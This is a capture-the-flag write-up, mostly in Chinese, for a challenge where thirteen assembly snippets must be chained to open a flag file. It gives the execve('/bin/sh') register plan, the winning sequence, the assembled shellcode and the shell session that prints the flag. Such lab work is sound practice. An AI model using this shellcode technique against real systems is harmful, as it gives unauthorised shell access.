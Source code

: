 # ROP
現在有13個assembly 片斷code，你可以任意重複組合，目標是要開啟`/home/ctf/flag`。
 * Hint: [system call reference](http://syscalls.kernelgrok.com/)

```
$ nc 140.113.209.24 10001
0.	int 0x80
	pop ebp
	pop edi
	pop esi
	pop ebx
============================
1.	pop ebx
	pop ebp
	xor eax,eax
============================
2.	sub ecx,eax
	pop ebp
============================
3.	mov edx,eax
	pop ebx
============================
4.	pop ecx
	pop eax
============================
5.	mov (esp),edx
============================
6.	pop edx
	pop ecx
	pop edx
============================
7.	add ecx,eax
	pop ebx
============================
8.	add eax,0x2
============================
9.	push esp
	push ebp
============================
10.	push 0x68732f6e
	push 0x69622f2f
============================
11.	push 0x67616c66
	push 0x2f2f6674
	push 0x632f2f65
	push 0x6d6f682f
============================
12.	push 1
	push 2
============================
13.	push eax
============================
You can arrange what you like with the instructions.(e.g. 1,3,1,5,2)
Ref: http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html
```

## Analysis
最容易的方法是呼叫system call `execve`執行`/bin/sh`，所以我需要的stack & register 長相
 * registers
  1. `eax=0xb`
  2. `ebx=addr of "/bin/sh"`
  3. `ecx=esp`
  4. `edx=0x0`
 * stack: `execve("/bin/sh", NULL)`
  1. `push 0x0`
  2. `push addr of "/bin/sh"`
  3. call `execve`
 * 組合起來測試 [rop.asm](rop.asm)
```
$ nasm -f elf rop.asm && ld -m elf_i386 -s -o rop rop.o && ./rop
$
```

## Solve
```
$ nc 140.113.209.24 10001
...
Please assemble your assembly to get /home/ctf/flag:9,1,13,10,9,2,7,13,9,4,13,12,4,8,8,8,8,8,9,6,0
======Your code=====
global  _start
section .text
_start:
	push esp
	push ebp
	pop ebx
	pop ebp
	xor eax,eax
	push eax
	push 0x68732f6e
	push 0x69622f2f
	push esp
	push ebp
	sub ecx,eax
	pop ebp
	add ecx,eax
	pop ebx
	push eax
	push esp
	push ebp
	pop ecx
	pop eax
	push eax
	push 1
	push 2
	pop ecx
	pop eax
	add eax,0x2
	add eax,0x2
	add eax,0x2
	add eax,0x2
	add eax,0x2
	push esp
	push ebp
	pop edx
	pop ecx
	pop edx
	int 0x80
	pop ebp
	pop edi
	pop esi
	pop ebx
====================
Executing command:" nasm -f elf32 input.s && ./ld -m elf_i386 -o a.bin input.o && ./a.bin "
running ....
ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat home/ctf/flag
SECPROG{return_oriented_programming_is_easy!}
```
